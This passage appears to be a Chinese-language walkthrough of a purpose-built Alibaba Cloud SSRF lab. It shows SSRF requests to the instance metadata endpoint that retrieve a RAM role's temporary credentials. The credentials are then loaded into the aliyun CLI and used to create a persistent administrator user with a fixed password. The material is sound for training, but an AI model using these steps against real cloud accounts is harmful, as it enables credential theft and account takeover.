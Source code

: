 如果 init 初始化比较慢，挂上代理即可

在 apply 期间，会提示 Enter a value，这时输入 yes 回车即可。

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-06-06/1654513617-740818-1654511678.png)

在 Outputs 处，可以看到返回的靶场地址，访问这个地址，可以看到 SSRF 测试靶场页面，这时就说明环境搭建完了。

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-06-06/1654513629-824184-1654511714.png)

## 0x02 环境利用

当前环境存在 SSRF 漏洞，但和常规 SSRF 所处的环境不同，这里的 SSRF 漏洞是出现在云服务器上的，这也就意味着我们可以通过这个 SSRF 漏洞获取到该服务器的元数据信息。

访问元数据

```bash
http://100.100.100.200/latest/meta-data
```

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-06-06/1654513640-110993-1654511862.png)

在返回的结果中，可以看到当前环境存在 ram/ 目录，这也就意味着当前云服务器配置了 RAM 角色，这样我们可以获取到临时凭证了。

通过元数据获取临时凭证

> 这里 URL 中的 huocorp-terraform-goat-role 是 RAM 角色名称，可以通过访问 http://100.100.100.200/latest/meta-data/ram/security-credentials/ 获取到。

```bash
http://100.100.100.200/latest/meta-data/ram/security-credentials/huocorp-terraform-goat-role
```
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-06-06/1654513649-861594-1654511960.png)

将临时凭证配置到 aliyun 命令行工具里。

```bash
aliyun configure --mode StsToken
```
![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-06-06/1654513660-960032-1654512150.png)

创建子用户，并赋予管理员权限

```bash
aliyun ram CreateUser --UserName teamssix
aliyun ram CreateLoginProfile --UserName teamssix --Password TeamsSix@666
aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName teamssix
```

![](https://huoxian-community.oss-cn-beijing.aliyuncs.com/2022-06-06/1654513669-982449-1654512184.png)

访问 [https://signin.aliyun.com](https://signin.aliyun.com) 页面，通过 RAM 用户进行登录，这里的用户格式为 username@company-alias，其中 username 就是刚刚创建的用户名，company-alias 可以通过下面的这个命令获取到。

```bash
aliyun ram GetAccountAlias
```
